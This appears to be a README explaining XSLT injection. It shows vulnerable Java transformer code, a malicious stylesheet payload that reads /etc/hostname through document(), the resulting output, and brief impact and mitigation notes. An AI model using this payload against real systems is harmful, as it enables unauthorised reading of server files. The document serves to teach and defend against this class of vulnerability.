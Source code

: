 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xslt-injection/main/xslt-injection.png"></p>

A threat actor may interfere with an application's processing of extensible stylesheet language transformations (XSLT) for extensible markup language (XML) to read or modify data on the target

## Example #1
1. Threat actor submits a malicious request to a target that has a vulnerable XSLT processor
2. The target's XSLT processor parses the malicious file (Based on the processor and the version of the XSLT specification)

## Code
#### Target-Logic
```java
...
Result result = new StreamResult(System.out);
Source xslt = new StreamSource(new File("test.xslt"));
Source xml = new StreamSource(new File("test.xml"));
TransformerFactory factory = TransformerFactory.newInstance();
Transformer transformer = factory.newTransformer(xslt);
transformer.transform(xml, result);
...
```

#### Target-In
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xs>
  <xsl:template match="/">
    <xsl:copy-of select=" document('/etc/hostname')"/>
  </xsl:template>
</xsl:stylesheet>
```

#### Target-Out
```
usystem01
```

## Impact
High

## Names
- XSLT Injection

## Risk
- Read & Write data
- Command Execution

## Redemption
- Secure processing

## ID
012e4a7b-b8ae-44a6-9b6f-08d24cf7dba2

## References
- [acunetix](https://www.acunetix.com/vulnerabilities/web/xslt-injection)
